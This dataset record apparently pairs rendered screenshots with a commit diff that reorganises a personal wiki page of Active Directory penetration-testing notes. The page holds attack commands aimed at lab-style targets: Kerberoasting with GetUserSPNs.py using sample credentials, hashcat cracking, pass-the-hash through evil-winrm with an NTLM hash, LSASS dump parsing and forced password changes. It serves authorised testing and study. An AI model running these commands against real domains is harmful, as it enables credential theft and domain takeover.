

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 1400 px high, scrolled down 3253 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -111,15 +111,33 @@ hashcat -m 5600 --force -a 0 responder.hashes /usr/share/wordlists/rockyou.txt
 nxc smb [IP] --gen-relay-list relay.txt
 ```
 
-# Active Directory Exploitation
+# Domain Privilege Escalation
+## ASREPRoasting
 **[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)**
 
+## Kerberoasting
+**[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)**
+
+**Requires:** Domain Credentials
+
+**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets containing the SPN hashes.
+
+```
+GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
+GetUserSPNs.py -request 'painters.htb/riley':'P@ssw0rd' -dc-ip 192.168.110.55 -debug -dc-host PAINTERS.HTB
+hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
+```
+
+## WriteDACL
 **[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)**
 
+## Active Directory ACLs/ACEs
 **[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)**
 
+## NTLMRelay
 **[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)**
 
+## DCSync
 **[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)**
 
 **With PowerView**:
@@ -133,27 +151,18 @@ Get-DomainUser -Identity svc-alfresco
 Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
 ```
 
+## SYSVOL Group Policy Credential Mining
 **[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)**
-
-**[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)**
-
-**Requires:** Domain Credentials
-
-**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets containing the SPN hashes.
-
-```
-GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
-GetUserSPNs.py -request 'painters.htb/riley':'P@ssw0rd' -dc-ip 192.168.110.55 -debug -dc-host PAINTERS.HTB
-hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
-```
 
 **[Constrained Delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation)**
 
 **Additional Resources**
   - [Using altservice to generate LDAP TGS](https://medium.com/r3d-buck3t/attacking-kerberos-constrained-delegations-4a0eddc5bb13#3276)
 
-## Lateral Movement
-[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)
+# Lateral Movement
+
+## ForceChangePassword
+**[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)**
 
 **Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object
 
@@ -169,12 +178,14 @@ Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential
 **Additional Resources**
   - [BloodHound ForceChangePassword](https://support.bloodhoundenterprise.io/hc/en-us/articles/17223286750747-ForceChangePassword)
 
+## Pass The Hash
 **[Pass The Hash](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/hash-pass-the-hash/#references)**
 ```
 evil-winrm -u James -H 8af1903d3c80d3552a84b6ba296db2ea -i 192.168.110.53 (obtain through mimikatz dump)
   - Sometimes you can compromise the WinRM, and then create a new administrator account to psexec into to access domain.
 ```
 
+## SeDebugPrivilege Add New Administrative User
 **[SeDebugPrivilege Add New Administrative User](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)**
 
 ## Credential Dumping
@@ -196,7 +207,7 @@ Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-f
 pypykatz lsa minidump lsass.DMP
 ```
 
-## Domain Escalation
+## Backup Operator
 **[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)**
 ```
 whoami /all (SeBackupPrivilege Enabled)
````
